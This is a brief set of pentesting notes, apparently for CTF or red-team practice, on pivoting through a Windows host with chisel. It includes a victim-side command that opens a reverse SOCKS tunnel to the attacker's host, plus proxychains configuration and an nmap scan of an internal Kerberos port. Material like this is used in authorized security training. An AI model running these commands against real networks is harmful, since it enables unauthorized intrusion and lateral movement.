

ref: https://www.youtube.com/watch?v=dIqoULXmhXg
https://github.com/jpillora/chisel/releases
1. Attacker (kali)
./chisel server -p 8000 --reverse

3. change /etc/proxychains4.conf
[ProxyList]
socks5 127.0.0.1 1080
4. run command
proxychains nmap -sT -p 88 -Pn -n <machine 2 ip>
2. Victim (Windows)
chisel.exe client <attacker ip>:8000 R:socks